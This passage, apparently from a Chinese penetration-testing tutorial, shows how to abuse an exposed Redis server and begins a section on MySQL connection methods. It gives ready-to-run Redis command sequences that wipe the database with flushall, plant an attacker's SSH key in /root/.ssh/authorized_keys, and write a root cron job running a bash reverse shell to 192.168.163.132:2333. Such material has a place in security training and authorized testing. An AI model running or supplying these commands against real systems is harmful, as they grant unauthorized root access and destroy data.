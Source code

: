 ### 2.1.2 写ssh公钥

如果`.ssh`目录存在，则直接写入`~/.ssh/authorized_keys`
如果不存在，则可以利用`crontab`创建该目录



```plain
flushall
set 1 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGd9qrfBQqsml+aGC/PoXsKGFhW3sucZ81fiESpJ+HSk1ILv+mhmU2QNcopiPiTu+kGqJYjIanrQEFbtL+NiWaAHahSO3cgPYXpQ+lW0FQwStEHyDzYOM3Jq6VMy8PSPqkoIBWc7Gsu6541NhdltPGH202M7PfA6fXyPR/BSq30ixoAT1vKKYMp8+8/eyeJzDSr0iSplzhKPkQBYquoiyIs70CTp7HjNwsE2lKf4WV8XpJm7DHSnnnu+1kqJMw0F/3NqhrxYK8KpPzpfQNpkAhKCozhOwH2OdNuypyrXPf3px06utkTp6jvx3ESRfJ89jmuM9y4WozM3dylOwMWjal root@kali
'
config set dir /root/.ssh/
config set dbfilename authorized_keys
save
```

### 2.1.3 写定时任务 计划反弹shell

利用定时任务反弹shell 这个利用只对于centos有效。因为保存后会带有脏数据，在ubuntu上会报错。一般是只能在centos上利用这个方法。

```plain
ubuntu：/var/spool/cron/crontabs/<username>

centos: /var/spool/cron/<username>
```

权限问题，定时文件位置不同

```plain
flushall
set 1 '\n\n*/1 * * * * bash -i >& /dev/tcp/192.168.163.132/2333 0>&1\n\n'
config set dir /var/spool/cron/
config set dbfilename root
save
```

# 0x03 MySQL利用

## 3.1 intro

MySQL数据库连接有三种方法：

```plain
Unix套接字
内部共享/命名管道
TCP/IP套接字
```

Linux或Unix环境，`mysql -uroot -proot`登录MySQL服务器就是用的Unix套接字

在windows系统中客户端和mysql服务器在同一台电脑上，可以使用命名管道和共享内存的方式

TCP/IP套接字是在任何系统下都可以使用的方式`mysql -h 127.0.0.1 -u root -proot`
